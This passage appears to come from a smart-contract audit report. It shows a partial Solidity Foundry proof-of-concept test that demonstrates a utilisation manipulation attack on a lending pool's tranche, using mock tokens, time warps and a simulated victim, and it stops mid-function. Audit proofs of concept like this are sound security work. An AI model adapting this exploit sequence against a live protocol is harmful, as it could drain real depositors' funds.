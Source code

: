 This test was added to `BorrowAndRepay.scenario.t.sol`

```solidity
    function testScenario_Poc() public {

        uint poolBalance = mockERC20.stable1.balanceOf(address(pool));
        console.log(poolBalance, "initial pool balance. This is also the amount deposited into tranche");
        vm.startPrank(users.liquidityProvider);
        mockERC20.stable1.approve(address(pool), 1e18);
        mockERC20.stable1.transfer(address(pool),1e18);
        vm.stopPrank();

        // Given: collateralValue is smaller than maxExposure.
        //amount token up to max
        uint112 amountToken = 1e30;
        uint128 amountCredit = 1e10;

        //get the collateral factor
        uint16 collFactor_ = Constants.tokenToStableCollFactor;
        uint256 valueOfOneToken = (Constants.WAD * rates.token1ToUsd) / 10 ** Constants.tokenOracleDecimals;

        //deposits token1 into proxyAccount
        depositTokenInAccount(proxyAccount, mockERC20.token1, amountToken);

        uint256 maxCredit = (
            //amount credit is capped based on amount Token
            (valueOfOneToken * amountToken) / 10 ** Constants.tokenDecimals * collFactor_ / AssetValuationLib.ONE_4
                / 10 ** (18 - Constants.stableDecimals)
        );


        vm.startPrank(users.accountOwner);
        //borrow the amountCredit to the proxy account
        pool.borrow(amountCredit, address(proxyAccount), users.accountOwner, emptyBytes3);
        vm.stopPrank();

        assertEq(mockERC20.stable1.balanceOf(users.accountOwner), amountCredit);

        //warp 2 minutes into the future.
        vm.roll(block.number + 10);
        vm.warp(block.timestamp + 120);

        console.log("warp 2 minutes into future");

        address victim = address(123);
        deal(address(mockERC20.stable1), victim, type(uint128).max, true);

        vm.startPrank(victim);
        mockERC20.stable1.approve(address(pool), type(uint128).max);
        uint shares = tranche.mint(1e3, victim);
        vm.stopPrank();

        console.log("mint was used rather than deposit to ensure no rounding error. This a UTILISATION manipulation attack not a share inflation attack");

        //function withdraw(uint256 assets, address receiver, address owner_)

        //WITHDRAWN 1e5
        vm.startPrank(users.liquidityProvider);
        uint withdrawShares = tranche.withdraw(1e5, users.liquidityProvider,users.liquidityProvider);
```